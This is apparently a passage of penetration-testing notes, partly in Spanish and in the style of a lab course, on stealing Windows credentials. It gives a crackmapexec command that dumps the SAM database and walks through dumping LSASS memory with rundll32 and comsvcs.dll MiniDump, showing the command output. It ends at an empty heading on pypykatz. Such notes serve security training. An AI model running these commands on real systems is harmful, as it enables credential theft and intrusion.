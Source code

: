 ```c
crackmapexec smb 10.129.42.198 --local-auth -u bob -p 'password' --sam
```


# Attacking LSASS


 LSASS es un servicio crítico que desempeña un papel central en la administración de credenciales y los procesos de autenticación en todos los sistemas operativos Windows.
 
## Dumping LSASS Process Memory

### Rundll32.exe & Comsvcs.dll Method

```c
C:\Windows\system32> tasklist /svc

Image Name                     PID Services
========================= ======== ============================================
System Idle Process              0 N/A
System                           4 N/A
Registry                        96 N/A
smss.exe                       344 N/A
csrss.exe                      432 N/A
wininit.exe                    508 N/A
csrss.exe                      520 N/A
winlogon.exe                   580 N/A
services.exe                   652 N/A
lsass.exe                      672 KeyIso, SamSs, VaultSvc
svchost.exe                    776 PlugPlay
svchost.exe                    804 BrokerInfrastructure, DcomLaunch, Power,
                                   SystemEventsBroker
fontdrvhost.exe                812 N/A
```

#### Finding LSASS PID in PowerShell

```c
PS C:\Windows\system32> Get-Process lsass

Handles   NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------          ------        -----              -----          ------          --  -- -----------
   1260         21          4948           15396       2.56       672   0 lsass
```

#### Creating lsass.dmp using PowerShell

```c
PS C:\Windows\system32> rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
```

## Using Pypykatz to Extract Credentials
